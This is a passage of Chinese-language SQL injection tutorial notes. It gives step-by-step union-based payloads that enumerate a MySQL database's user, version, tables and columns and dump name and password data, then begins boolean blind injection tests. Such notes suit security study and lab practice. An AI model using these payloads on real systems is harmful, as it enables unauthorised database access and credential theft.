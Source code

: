 **3、利用union联合查询**
```
?id=-1%27 union select 1,2,3,4#        --看哪个字段可以显示信息，利用它获取数据库信息
--修改id为一个不存在的id，强行报错
--因为代码默认只返回第一条结果，不会返回 union select 的结果
```

**4、获取数据库信息**
```
id=-1%27 union select 1,2,3,CONCAT_WS(CHAR(32,58,32),user(),database(),version())#

user()        --获取数据库用户名
database()    --获取数据库名
version()    --获取数据库版本信息
concat_ws(separator,str1,str2,...)    --含有分隔符地连接字符串 
--里边这的separator分隔符，用 char() 函数把 空格:空格 的ASCII码输出

--其它信息
@@datadir                --数据库路径
@@version_compile_os    --操作系统版本
```

**5、查询数据库的表**
```
id=-1%27 union select 1,2,3,table_name from information_schema.tables where table_schema='sqli' limit 0,1#

--table_schema=数据库名16进制或者用单引号括起来
--改变limit 0,1中前一个参数，得到所有表
```

**6、查询数据库字段**
```
id=-1%27 union select 1,2,3,column_name from information_schema.columns where table_schema=%27数据库名%27 and table_name=%27表名%27limit 0,1#
```

**7、脱裤，获取数据**
```
union select 1,2,3,group_concat(name,password)%20from%20sc#
--用字段名从表中取数据
group_concat(str1,str2,...)    --连接一个组的所有字符串
```

### Boolean注入

布尔型盲注，页面不返回查询信息的数据，只能通过页面返回信息的真假条件判断是否存在注入。

**1、在参数后添加引号尝试报错，并用`and 1=1#`和`and 1=2#`测试报错**
```
?id=1' and 1=1#        页面返回正常
?id=1' and 1=2#        页面返回不正常
```

**2、判断数据库名的长度**
```
1'and length(database())>=1--+        页面返回正常
1'and length(database())>=13--+        页面返回正常
1'and length(database())>=14--+        页面返回错误

由此判断得到数据库名的长度是13个字符
```
